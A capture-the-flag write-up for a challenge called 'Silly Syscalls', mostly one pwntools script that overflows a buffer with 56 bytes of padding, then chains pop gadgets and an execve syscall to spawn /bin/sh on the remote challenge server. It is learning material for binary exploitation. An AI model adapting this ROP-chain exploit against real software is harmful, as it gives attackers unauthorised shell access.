

[Source code](./handout/2-Silly_Syscalls)

So now we do not have a win function. But we do get a 'random_string'.  
The starting method is same as previous but now instead of calling a win function we need to make a syscall.

Here I will use the `rop.raw()` function to generate the chain

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chal_patched")
context.binary = elf
rop = ROP(elf)

HOST = "chal.sigpwny.com"
PORT = 1393

conn = remote(HOST, PORT)

# --- ROP chain construction ---

# load the "pop rdi, ret" gadget
rop.raw(rop.find_gadget(['pop rdi', 'ret'])[0])

# load /bin/sh address from the binary
rop.raw(next(elf.search(b"/bin/sh\x00")))

# load the "pop rsi, ret" gadget
rop.raw(rop.find_gadget(['pop rsi', 'ret'])[0])

# Set it to 0
rop.raw(0)

# load the "pop rdx, ret" gadget
rop.raw(rop.find_gadget(['pop rdx', 'ret'])[0])

# Set it to 0
rop.raw(0)

# load the "pop rax, ret" gadget
rop.raw(rop.find_gadget(['pop rax', 'ret'])[0])

# Set it to 59 for syscall
rop.raw(0x3b)

# make the syscall
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])

# Final paylaod
payload = cyclic(56) + rop.chain()
# Display the ROP chain
info(f"{rop.dump()}")

conn.sendlineafter(b"> ", payload)
conn.interactive()
```




[3-ret2system](./3-ret2system.md)
